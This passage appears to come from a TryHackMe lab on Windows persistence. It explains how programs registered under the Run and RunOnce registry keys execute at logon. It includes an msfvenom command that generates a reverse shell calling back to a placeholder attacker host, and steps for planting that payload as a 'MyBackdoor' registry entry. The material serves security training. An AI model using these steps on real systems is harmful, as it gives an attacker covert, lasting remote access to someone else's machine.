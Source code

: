 Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open):

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f0ba7fd44646d55c5505737642bdd96e.png)

	And log back via RDP. You should immediately receive a connection back to your attacker's machine.
	THM flagUse your newly obtained shell to execute C:\flags\flag10.exe and get your flag!

Run / RunOnce

You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

    HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
    HKLM\Software\Microsoft\Windows\CurrentVersion\Run
    HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

The registry entries under HKCU will only apply to the current user, and those under HKLM will apply to everyone. Any program specified under the Run keys will run every time the user logs on. Programs specified under the RunOnce keys will only be executed a single time.

For this task, let's create a new reverse shell with msfvenom:

```

AttackBox

user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe

        


```

	After transferring it to the victim machine, let's move it to C:\Windows\:

```

Command Prompt

C:\> move revshell.exe C:\Windows

        


```

	Let's then create a REG_EXPAND_SZ registry entry under HKLM\Software\Microsoft\Windows\CurrentVersion\Run. The entry's name can be anything you like, and the value will be the command we want to execute.

Note: While in a real-world set-up you could use any name for your registry entry, for this task you are required to use MyBackdoor to receive the flag.
